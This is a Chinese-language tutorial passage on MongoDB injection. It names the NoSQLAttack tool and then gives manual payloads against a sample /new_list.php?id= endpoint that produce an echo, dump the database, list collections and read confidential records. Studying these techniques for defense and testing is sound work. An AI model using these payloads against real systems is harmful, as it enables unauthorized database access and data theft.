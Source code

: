 ### mongoDB注入

- 使用工具

  SQLmap不能识别MongoDB，这里介绍nosqlattack：https://github.com/youngyangyang04/NoSQLAttack

  首先输入目标网站IP：

  ![image-20220727164245044](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727164245044.png)

  然后输入路径：

  ![image-20220727164313282](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727164313282.png)

  尝试攻击：

  ![image-20220727164346561](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727164346561.png)

- 手工注入

  参考文档：

  https://blog.csdn.net/qq_39936434/article/details/95319449

  https://www.cnblogs.com/wefeng/p/11503102.html

  Mongodb的查询文档方式与其他的数据库略微不同，当进行条件查询的时候，mysql是用where, 而mongodb是以键值对形式进行查询的。

  比如按id="1"查询表news中的数据：`select * from admin {'id': '1'})`。

  - 构建回显，mongoDB查询操作的源代码为findone({‘id’：‘1’})

    攻击语句：`/new_list.php?id=1'});return({title:1,content:'2`

    ![img](https://i0.hdslb.com/bfs/article/4e7e306f459dea0d7e0f0f629cfc5164865c521c.png@831w_207h_progressive.webp)

  - 爆库

    `/new_list.php?id=1'}); return ({title:tojson(db),content:'1`

    ---tojson() 方法可以将 Date 对象转换为字符串格式化为 JSON 数据格式，相当于MySQL的数据库名。

    ![img](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/58e82612a8625ea7cb239e0e56529d8b36c06def.png@831w_168h_progressive.webp)

  - 爆表

    `/new_list.php?id=1'});return({title:tojson(db.getCollectionNames()),content:'1` 

    db.getCollectionNames()返回的是数组，转化为json格式，相当于MySQL的tables。

    ![img](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/193beaae0edc48fde33c165acbb2ee1e430c4600.png@831w_210h_progressive.webp)

  - 查询指定数据

    `/new_list.php?id=1'});return({title:tojson(db.Authority_confidential.find()[0]),content:'1`

    元素集中查找使用E.find(expr)函数，用于从匹配的元素集E的子元素中找出与find指定表达式expr相匹配的元素集合，E 同 expr 可视作同父子元素关系.

    find()[0]为第一条数据，find()[1]为第二条
